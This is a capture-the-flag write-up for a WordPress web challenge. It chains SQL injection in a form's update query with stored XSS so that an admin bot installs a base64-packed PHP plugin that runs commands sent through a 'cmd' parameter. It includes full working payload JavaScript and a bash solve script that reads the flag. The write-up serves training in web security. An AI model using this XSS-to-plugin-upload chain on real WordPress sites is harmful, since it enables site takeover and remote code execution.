


# Beyond AI | ECW 2023 Finals | Web medium

This challenge was made by Opencyber for the ECW Finals 2023

The goal of the challenge is to **chain multiple web vulnerabilities** in order to acheive **Remote Code Execution** on a **Wordpress** instance

The Wordpress instance features a plugin allowing users to fill a form containing an email address, a fullname and a resume as a PDF file

Upon sending the form, users have the ability to update some of the fields. The update statement (unlike the insert statement) is not sanitizing the input properly, introducing an SQL Injection vulnerability allowing an attacker to change arbitrary fields in the corresponding table

Moreover, an XSS vulnerability is also introduced, as the input is not sanitized, allowing an attacker to execute JavaScript code in the browser of a user against his will

The attacker could craft an XSS payload to upload a malicious Wordpress plugin BUT it would need to be executed by an administrator of the instance

## Discovering the application

We land on a website that can be easily identified as a **Wordpress** instance as it is written at the bottom of the page


There are 2 posts published on the blog that we can read. The interesting one is `Beyond AI is hiring` which can be found here : http://beyond-ai.ecw/?p=14


The post tells us that we are able to apply for a job on http://beyond-ai.ecw/?ai-recruitment and also that our application will be reviewed by the HR AI **Gustave**

The AI is very strict so if the application is made after the 1st of July 2023 he would not bother taking a look at it

## Playing with the form

Clicking on the link, we can fill the informations and try an XSS payload


We can then access our form by clicking here


In the result page, our XSS has been sanitized properly and we have 2 additional informations : 
- date (the creation date of our application) 
- seen (the status of our application)



Based upon the wordpress post, we know that our application is going to be seen by another user but only if the date of our submission is before the 1st of July 2023 (2023-07-01). We need to find a way to change the date of our submission

Let's try to update our submission to see what happens

When we send the following request, our application updates just fine


We can now try a basic SQLi by adding a `'` in the `fullname` field


We don't get an error BUT the result remains the same. Something is fishy


In order to check if this is actually injectable or not, we can use different techniques such as adding a comment


Now, that is interesting, we managed to comment the end of the query to inject what we wanted.

The update statement looks to be injectable so we have the ability to change the data stored in the database as long as we know the column names

The update statement should like something like 

```sql
UPDATE table_name SET email='$email_input',fullname='$fullname_input' WHERE id=$id
```

## SQL injection to change the date

Based upon what we found so far, we could try to change the date of our application

We can easily guess the column name is `date` as it is displayed on the status page

Inputting the following `fullname` should allow us to modify the `date`

```sql
Opencyber',date='2023-01-01
```

As the query will be translated as 

```sql
UPDATE table_name SET email='$email_input',fullname='Opencyber',date='2023-01-01' WHERE id=$id
```


The result is as expected !

We managed to change the date via an SQL Injection



Now, our application respects the conditions and someone should check it out at some point.

After 2 minutes, our status has actually been seen


How can we take the exploit to the next level ?

## Upgrade to XSS

If we assume the user that visits our application is an administrator, we could make it upload a malicious plugin to give us the ability to execute code on the server

In order to do this, we need to include an XSS payload in our application

As we can see, our fullname is reflected in the `value` attribute of the `input` tag


As the fields don't seem to be sanitized, we can get out of the tag and inject arbitrary HTML tag

For sanity check, we start with a basic `alert`


Our payload has been executed correctly !

Let's take it to the next level by finding a way to upload a malicious plugin

After some time googling around, we come across the following blog post by **xanhacks** : https://www.offensiveweb.com/docs/topics/xss/#wordpress---upload-plugin-form

This blog takes us step by step on how an XSS can be leveraged to a RCE on Wordpress

It even provides the JavaScript code we need to do that

```js
// 1. Obtain CSRF token
fetch("/wp-admin/plugin-install.php")
.then(resp => resp.text())
.then(htmlResponse => {
	const htmlDoc = new DOMParser().parseFromString(htmlResponse, "text/html");
	const csrfToken = htmlDoc.getElementsByClassName("wp-upload-form")[0].getElementsByTagName("input")[0].value;

	// 2. Transform plugin (base64) into blob
	const b64_plugin_data = "UEsDBBQAAAAIAGdanFYSKsI7lwEAAHMDAAAJABwAaW5kZXgucGhwVVQJAAOSj0tkwY9LZHV4CwABBOkDAAAE6QMAAJ1Sy27bMBA8V1+xEHqwHUt0nSKHNEBfMdwAQeI6j0sRCGuKkYRYJEFSkY2g/16SkmIZyaEwT4udnZnVjs6+ylwGZDQKYATLnzNADQg3TD0XlIFtuv43ifQJMwYAirIIdYSRbkY8jJXJhbIobJDndlb79triXDvWfHEZTePJUdvmT+BfbozUp4RkhcmrVUxFSToBUguVSsW0jpylXFdZwT2dCrlVRZYbmE6mx+O+pcd3xB1p4Su4wpKdNtZvvrU3dre86KYOWvGcaaoKaQrBO53rlUGrjNz72oo9M7WFVwWQ9ryxI98zpXtE9z7Fk3jisO/+zn1o7+AN/L/rO8Yt2xg4F6XdraO8F/BlE2TfuJ9oC/eNna+1res6zngVC5WR9m/QJJNrR43NxvhreXtYoMk7Nlkjzyp7Eb/kvDC/qtVeOIek0sr8UMhp6+SMLUSCANM0QeoSG4S1TB6FMEyFYwibKrFS4fBLEDxW3E/Brj8YwkvwQW+1YeVghZqdfE5SRkXKBh+T5ez33ezm9k9IyzR8GFqJv8E/UEsBAh4DFAAAAAgAZ1qcVhIqwjuXAQAAcwMAAAkAGAAAAAAAAQAAAKSBAAAAAGluZGV4LnBocFVUBQADko9LZHV4CwABBOkDAAAE6QMAAFBLBQYAAAAAAQABAE8AAADaAQAAAAA=";
	fetch("data:application/zip;base64," + b64_plugin_data)
	.then(res => res.blob())
	.then(pluginBlob => {
		const formData = new FormData();
		formData.append("_wpnonce", csrfToken);
		formData.append("_wp_http_referer", "/wp-admin/plugin-install.php");
		formData.append("pluginzip", pluginBlob, "plugin.zip");
		formData.append("install-plugin-submit", "Install Now");

		// 3. Upload the malicious plugin
		fetch("/wp-admin/update.php?action=upload-plugin", {
			"method": "POST",
			"body": formData
		})
		.then(resp => resp.text())
		.then(htmlResponse => {
			const htmlDoc2 = new DOMParser().parseFromString(htmlResponse, "text/html");
			const link = htmlDoc2.getElementsByClassName("button button-primary")[0].getAttribute("href");

			// 4. Activate the plugin
			fetch("/wp-admin/" + link);
		});
	});
});
```

Now that we have everything, we can craft the final payload

## Mix it all together

Since our previous application has already been seen by an admin, we need to create a new one

Remember that we can't inject anything at creation time BUT we can do it at update time

We begin by creating a dummy application once again

Then we update the `fullname` field to include the following payload which :
- starts by escaping from the `input` HTML tag
- inputs the `script` tag that contains the malicious actions
- ends up with the SQL injection to update the date of our application

```html
"><script>
fetch("/wp-admin/plugin-install.php")
.then(resp => resp.text())
.then(htmlResponse => {
	const htmlDoc = new DOMParser().parseFromString(htmlResponse, "text/html");
	const csrfToken = htmlDoc.getElementsByClassName("wp-upload-form")[0].getElementsByTagName("input")[0].value;
	const b64_plugin_data = "UEsDBBQAAAAIAGdanFYSKsI7lwEAAHMDAAAJABwAaW5kZXgucGhwVVQJAAOSj0tkwY9LZHV4CwABBOkDAAAE6QMAAJ1Sy27bMBA8V1+xEHqwHUt0nSKHNEBfMdwAQeI6j0sRCGuKkYRYJEFSkY2g/16SkmIZyaEwT4udnZnVjs6+ylwGZDQKYATLnzNADQg3TD0XlIFtuv43ifQJMwYAirIIdYSRbkY8jJXJhbIobJDndlb79triXDvWfHEZTePJUdvmT+BfbozUp4RkhcmrVUxFSToBUguVSsW0jpylXFdZwT2dCrlVRZYbmE6mx+O+pcd3xB1p4Su4wpKdNtZvvrU3dre86KYOWvGcaaoKaQrBO53rlUGrjNz72oo9M7WFVwWQ9ryxI98zpXtE9z7Fk3jisO/+zn1o7+AN/L/rO8Yt2xg4F6XdraO8F/BlE2TfuJ9oC/eNna+1res6zngVC5WR9m/QJJNrR43NxvhreXtYoMk7Nlkjzyp7Eb/kvDC/qtVeOIek0sr8UMhp6+SMLUSCANM0QeoSG4S1TB6FMEyFYwibKrFS4fBLEDxW3E/Brj8YwkvwQW+1YeVghZqdfE5SRkXKBh+T5ez33ezm9k9IyzR8GFqJv8E/UEsBAh4DFAAAAAgAZ1qcVhIqwjuXAQAAcwMAAAkAGAAAAAAAAQAAAKSBAAAAAGluZGV4LnBocFVUBQADko9LZHV4CwABBOkDAAAE6QMAAFBLBQYAAAAAAQABAE8AAADaAQAAAAA=";
	fetch("data:application/zip;base64," + b64_plugin_data)
	.then(res => res.blob())
	.then(pluginBlob => {
		const formData = new FormData();
		formData.append("_wpnonce", csrfToken);
		formData.append("_wp_http_referer", "/wp-admin/plugin-install.php");
		formData.append("pluginzip", pluginBlob, "plugin.zip");
		formData.append("install-plugin-submit", "Install Now");
		fetch("/wp-admin/update.php?action=upload-plugin", {
			"method": "POST",
			"body": formData
		})
		.then(resp => resp.text())
		.then(htmlResponse => {
			const htmlDoc2 = new DOMParser().parseFromString(htmlResponse, "text/html");
			const link = htmlDoc2.getElementsByClassName("button button-primary")[0].getAttribute("href");
			fetch("/wp-admin/" + link);
		});
	});
});
</script>
',date='2023-01-01
```

This whole payload can be pasted directly in the `fullname` field


The page is now broken but it definitely contains our malicious code


All we need to do is to wait for the admin to view it (this shouldn't take more than 2 minutes)


Now, we can execute commands on the main page using the `cmd` GET parameter with our command encoded in base64

Going to this URL gives us the output of the `id` command : http://beyond-ai.ecw/?cmd=aWQK


We can now get a reverse shell if we want or execute commands one by one to find the flag in `/flag.txt`

Here is the URL that allows us to read the flag : http://beyond-ai.ecw/?cmd=Y2F0IC9mbGFnLnR4dAo=


## Solve script

Here is a simple bash script that automates everything we have seen

```sh
#!/bin/bash

# download a dummy PDF
wget https://mag.wcoomd.org/uploads/2018/05/blank.pdf -O blank.pdf

# sends a resume and parses the response to get the application ID
resume_id=$(
    curl -s http://beyond-ai.ecw/?ai-recruitment -F 'email=opencyber@opencyber.com' \
    -F 'fullname=opencyber' -F 'resume=@blank.pdf' | grep -Eo 'application=[0-9]+' | grep -Eo '[0-9]+')

# modify the resume to make it trigger the XSS that is going to upload a RCE plugin
# and also update the date via the SQLi
curl "http://beyond-ai.ecw/?ai-recruitment&application=$resume_id" --data-raw 'email=opencyber%40opencyber.com&fullname=%22%3E%3Cscript%3E+fetch%28%22%2Fwp-admin%2Fplugin-install.php%22%29+.then%28resp+%3D%3E+resp.text%28%29%29+.then%28htmlResponse+%3D%3E+%7B+%09const+htmlDoc+%3D+new+DOMParser%28%29.parseFromString%28htmlResponse%2C+%22text%2Fhtml%22%29%3B+%09const+csrfToken+%3D+htmlDoc.getElementsByClassName%28%22wp-upload-form%22%29%5B0%5D.getElementsByTagName%28%22input%22%29%5B0%5D.value%3B+%09const+b64_plugin_data+%3D+%22UEsDBBQAAAAIAGdanFYSKsI7lwEAAHMDAAAJABwAaW5kZXgucGhwVVQJAAOSj0tkwY9LZHV4CwABBOkDAAAE6QMAAJ1Sy27bMBA8V1%2BxEHqwHUt0nSKHNEBfMdwAQeI6j0sRCGuKkYRYJEFSkY2g%2F16SkmIZyaEwT4udnZnVjs6%2BylwGZDQKYATLnzNADQg3TD0XlIFtuv43ifQJMwYAirIIdYSRbkY8jJXJhbIobJDndlb79triXDvWfHEZTePJUdvmT%2BBfbozUp4RkhcmrVUxFSToBUguVSsW0jpylXFdZwT2dCrlVRZYbmE6mx%2BO%2Bpcd3xB1p4Su4wpKdNtZvvrU3dre86KYOWvGcaaoKaQrBO53rlUGrjNz72oo9M7WFVwWQ9ryxI98zpXtE9z7Fk3jisO%2F%2Bzn1o7%2BAN%2FL%2FrO8Yt2xg4F6XdraO8F%2FBlE2TfuJ9oC%2FeNna%2B1res6zngVC5WR9m%2FQJJNrR43NxvhreXtYoMk7Nlkjzyp7Eb%2FkvDC%2FqtVeOIek0sr8UMhp6%2BSMLUSCANM0QeoSG4S1TB6FMEyFYwibKrFS4fBLEDxW3E%2FBrj8YwkvwQW%2B1YeVghZqdfE5SRkXKBh%2BT5ez33ezm9k9IyzR8GFqJv8E%2FUEsBAh4DFAAAAAgAZ1qcVhIqwjuXAQAAcwMAAAkAGAAAAAAAAQAAAKSBAAAAAGluZGV4LnBocFVUBQADko9LZHV4CwABBOkDAAAE6QMAAFBLBQYAAAAAAQABAE8AAADaAQAAAAA%3D%22%3B+%09fetch%28%22data%3Aapplication%2Fzip%3Bbase64%2C%22+%2B+b64_plugin_data%29+%09.then%28res+%3D%3E+res.blob%28%29%29+%09.then%28pluginBlob+%3D%3E+%7B+%09%09const+formData+%3D+new+FormData%28%29%3B+%09%09formData.append%28%22_wpnonce%22%2C+csrfToken%29%3B+%09%09formData.append%28%22_wp_http_referer%22%2C+%22%2Fwp-admin%2Fplugin-install.php%22%29%3B+%09%09formData.append%28%22pluginzip%22%2C+pluginBlob%2C+%22plugin.zip%22%29%3B+%09%09formData.append%28%22install-plugin-submit%22%2C+%22Install+Now%22%29%3B+%09%09fetch%28%22%2Fwp-admin%2Fupdate.php%3Faction%3Dupload-plugin%22%2C+%7B+%09%09%09%22method%22%3A+%22POST%22%2C+%09%09%09%22body%22%3A+formData+%09%09%7D%29+%09%09.then%28resp+%3D%3E+resp.text%28%29%29+%09%09.then%28htmlResponse+%3D%3E+%7B+%09%09%09const+htmlDoc2+%3D+new+DOMParser%28%29.parseFromString%28htmlResponse%2C+%22text%2Fhtml%22%29%3B+%09%09%09const+link+%3D+htmlDoc2.getElementsByClassName%28%22button+button-primary%22%29%5B0%5D.getAttribute%28%22href%22%29%3B+%09%09%09fetch%28%22%2Fwp-admin%2F%22+%2B+link%29%3B+%09%09%7D%29%3B+%09%7D%29%3B+%7D%29%3B+%3C%2Fscript%3E+%27%2Cdate%3D%272023-05-11'

# wait for the bot to execute our payload
sleep 130

# use the uploaded plugin to execute : "cat /flag.txt"
curl -s 'http://beyond-ai.ecw/?cmd=Y2F0IC9mbGFnLnR4dAo=' | grep -Eo 'ECW{.*}'

rm blank.pdf
```
